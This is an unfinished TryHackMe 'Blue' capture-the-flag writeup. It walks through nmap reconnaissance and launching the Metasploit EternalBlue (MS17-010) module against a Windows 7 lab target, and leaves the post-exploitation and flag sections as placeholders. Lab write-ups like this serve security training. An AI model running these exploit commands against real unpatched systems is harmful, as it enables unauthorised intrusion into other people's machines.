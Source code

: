 # 🎯 TryHackMe - Blue Writeup

## 📋 Challenge Overview
**Platform**: TryHackMe  
**Difficulty**: Easy  
**Category**: Windows Exploitation, EternalBlue, Privilege Escalation  
**Target**: Windows 7 machine with SMB vulnerability  
**Objective**: Exploit EternalBlue and gain SYSTEM privileges

---

## 🛠️ Tools Used
- **Reconnaissance**: Nmap, NSE scripts
- **Exploitation**: Metasploit Framework, EternalBlue exploit
- **Post-Exploitation**: Windows enumeration tools, Mimikatz
- **Analysis**: Wireshark, packet analysis

---

## 🎯 Attack Path
1. **Initial Reconnaissance** - Port scanning and service enumeration
2. **Vulnerability Assessment** - Identifying SMB version and potential vulnerabilities
3. **Exploitation** - Using EternalBlue to gain initial access
4. **Privilege Escalation** - Escalating to SYSTEM privileges
5. **Flag Capture** - Locating and capturing all flags

---

## 📝 Detailed Walkthrough

### Step 1: Initial Reconnaissance
```bash
# Port scan to identify open services
nmap -sC -sV -p- 10.10.x.x

# Results:
# 135/tcp open  msrpc   Microsoft Windows RPC
# 139/tcp open  netbios-ssn Microsoft Windows netbios-ssn
# 445/tcp open  microsoft-ds Windows 7 professional 7601 service pack 1
```

### Step 2: SMB Enumeration
```bash
# Check SMB version and vulnerabilities
nmap --script smb-vuln* -p 445 10.10.x.x

# Results:
# VULNERABLE: MS17-010 (EternalBlue)
```

### Step 3: Exploitation
```bash
# Use Metasploit to exploit EternalBlue
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.x.x
exploit
```

### Step 4: Post-Exploitation
*[Post-exploitation techniques will be documented here]*

### Step 5: Flag Capture
*[Flag locations and capture process will be documented here]*

---

## 🎓 Key Learnings
- **EternalBlue Exploitation**: Understanding the MS17-010 vulnerability and exploitation
- **Windows Post-Exploitation**: Techniques for Windows privilege escalation
- **SMB Security**: Importance of keeping SMB services updated
- **Metasploit Framework**: Effective use of automated exploitation tools

---

## 🔍 Difficulty Assessment
**Personal Rating**: Easy  
**Time to Complete**: 1-2 hours  
**Key Challenges**: Understanding EternalBlue, Windows enumeration

---

## 📚 Related Resources
- [EternalBlue Exploit Analysis](https://www.symantec.com/blogs/threat-intelligence/eternalblue-nsa-developed-exploit-released-shadow-brokers)
- [Windows Privilege Escalation Guide](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- [SMB Security Best Practices](https://docs.microsoft.com/en-us/windows-server/storage/file-server/troubleshoot/smb-security)

---

## 🏆 Final Thoughts
This challenge demonstrated the importance of keeping systems patched and the devastating impact of unpatched vulnerabilities. EternalBlue remains a critical lesson in cybersecurity about the importance of timely updates.

---

*This writeup is a work in progress and will be updated with complete details once the challenge is solved.* 